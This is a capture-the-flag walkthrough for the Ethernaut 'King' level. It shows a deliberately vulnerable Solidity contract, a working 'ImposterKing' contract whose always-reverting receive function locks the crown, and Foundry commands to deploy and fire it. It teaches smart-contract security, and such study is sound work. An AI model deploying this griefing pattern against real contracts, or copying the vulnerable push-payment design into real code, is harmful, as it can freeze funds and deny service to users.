 ## King Level Outline

**Difficulty : 6/10**

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5)

## Solution
The contract espects to be interacting with an EOA but we can force a revert and keep the crown if we make a malicious contract the king.

To make sure that we keep the crown when someone tries to claim it. We create a malicious fallback function in our contract which will revert after receiving ETH effectively keeping our malicious contract as the King.

### Walkthrough

##### 1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract ImposterKing {
    address king;

    constructor(address _king) payable {
        king = _king;
    }

    function claimCrown() public payable {
        payable(king).call{value: msg.value}("");
    }

    receive() external payable {
        revert("I will keep the crown :)");
    }
}
```

##### 2. deploy our new contract
```console
forge create src/Contract.sol:ImposterKing --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. finding the current value of prize to see how much we need to overthrow the current king
```console
cast call $LEVEL_ADDRESS "prize()" | cast --to-dec
```
output
```console
1000000000000000
```
> take note that this is the value of prize in wei, meaning that we need to send more than 1000000000000000wei to become the new king

##### 4. call the "claimCrown()" function on our newly deployed contract along with some eth
```console
cast send $DEPLOYED_ADDRESS "claimCrown()" --value 1000000000000001wei --gas 80000 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract
